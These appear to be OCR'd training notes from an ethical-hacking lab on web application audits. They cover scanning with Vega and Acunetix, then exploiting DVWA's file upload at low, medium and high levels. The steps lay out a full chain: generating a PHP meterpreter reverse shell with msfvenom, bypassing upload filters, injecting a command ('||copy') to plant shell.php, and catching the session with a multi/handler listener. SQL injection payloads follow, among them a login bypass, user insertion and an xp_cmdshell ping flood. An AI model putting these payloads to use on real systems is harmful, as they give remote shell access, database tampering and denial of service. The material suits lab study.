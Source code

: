 VEGA -Web Application Audit (Kali)
•	Open from Web application analysis
•	Start New Scan
•	Enter URL http://10.10.10.12:8080/dvwa 
•	Select all modules
•	Leave rest settings as default and start.
Acunetix WVS (Windows)
•	Install with password qwerty@1234 and port 13443
•	Add target. http://www.moviescope.com
•	Run Full Scan with OWASP 2013 report.
•	

File Upload Vulnerability – All Levels DVWA
Payload Creation
•	msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw | create a raw php code
•	Copy the code in a text file and save as .php
Low Level Exploitation
•	Upload the file | note the path /dvwa/hackable/uploads/<filename>.php
•	Run listener by starting msfconsole
•	Type use exploit/multi/handler.
•	Type set payload php/meterpreter/reverse_tcp.
•	Type set LHOST 10.10.10.11.
•	Start listener, type exploit
•	Browse link of file to start meterpreter session.
Medium Level Exploitation
•	Rename file as <filename>.php.jpg
•	While uploading, intercepting with burp and rename back to <filename>.php
•	Run listener by starting msfconsole
•	Type use exploit/multi/handler.
•	Type set payload php/meterpreter/reverse_tcp.
•	Type set LHOST 10.10.10.11.
•	Start listener, type exploit
•	Browse link of file to start meterpreter session.
High Level Exploitation
•	Open the <filename>.php file and add code GIF98 at start and save file as <filename>.jpg
•	Upload file
•	Now go to command execution tab and use command <Some IP>||copy C:\wamp64\www\DVWA\hackable\uploads\<filename>.jpg C:\wamp64\www\DVWA\hackable\uploads\shell.php
•	Run listener by starting msfconsole
•	Type use exploit/multi/handler.
•	Type set payload php/meterpreter/reverse_tcp.
•	Type set LHOST 10.10.10.11.
•	Start listener, type exploit
•	Browse link of file to start meterpreter session.

SQL INJECTION
Manual Injection 
•	‘ or 1=1 -- | for login bypass
•	‘insert into login values ('john','apple123'); -- | create own user in the database
•	‘create database mydatabase; -- | create database with name of mydatabase
•	‘exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- | execute ping on moviescope

